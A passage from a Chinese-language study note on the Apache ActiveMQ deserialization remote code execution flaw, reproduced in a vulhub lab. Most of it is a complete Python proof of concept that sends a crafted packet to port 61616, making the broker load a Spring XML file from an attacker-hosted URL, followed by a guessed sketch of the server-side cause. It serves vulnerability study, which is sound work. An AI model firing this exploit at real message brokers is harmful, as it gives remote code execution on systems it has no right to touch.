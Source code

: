 有了 vulhub 我们复现漏洞固然轻松简单，漏洞的分析也有前辈撰写的佳作：[https://xz.aliyun.com/t/12929](https://xz.aliyun.com/t/12929)

所以在这里我们只了解这个漏洞大概的原理，根据 poc 来进行学习

```plain
import io
import socket
import sys


def main(ip, port, xml):
    classname = "org.springframework.context.support.ClassPathXmlApplicationContext"
    socket_obj = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    socket_obj.connect((ip, port))

    with socket_obj:
        out = socket_obj.makefile('wb')
        # out = io.BytesIO()  # 创建一个内存中的二进制流
        out.write(int(32).to_bytes(4, 'big'))
        out.write(bytes([31]))
        out.write(int(1).to_bytes(4, 'big'))
        out.write(bool(True).to_bytes(1, 'big'))
        out.write(int(1).to_bytes(4, 'big'))
        out.write(bool(True).to_bytes(1, 'big'))
        out.write(bool(True).to_bytes(1, 'big'))
        out.write(len(classname).to_bytes(2, 'big'))
        out.write(classname.encode('utf-8'))
        out.write(bool(True).to_bytes(1, 'big'))
        out.write(len(xml).to_bytes(2, 'big'))
        out.write(xml.encode('utf-8'))
        # print(list(out.getvalue()))
        out.flush()
        out.close()


if __name__ == "__main__":
    if len(sys.argv) != 4:
        print("Please specify the target and port and poc.xml: python3 poc.py 127.0.0.1 61616 "
              "http://192.168.0.101:8888/poc.xml")
        exit(-1)
    main(sys.argv[1], int(sys.argv[2]), sys.argv[3])
```

其实看到`org.springframework.context.support.ClassPathXmlApplicationContext`就知道，这是攻击了 Spring 框架中用于加载 XML 配置文件的类，那么攻击原理可能是这样：

```plain
public void oneway(Object command) throws IOException {
    this.checkStarted();
    Throwable obj = new ClassPathXmlApplicationContext("http://127.0.0.1:8000/poc.xml");
    ExceptionResponse response = new ExceptionResponse(obj);
   this.wireFormat.marshal(response, this.dataOut);
    this.dataOut.flush();
}
```
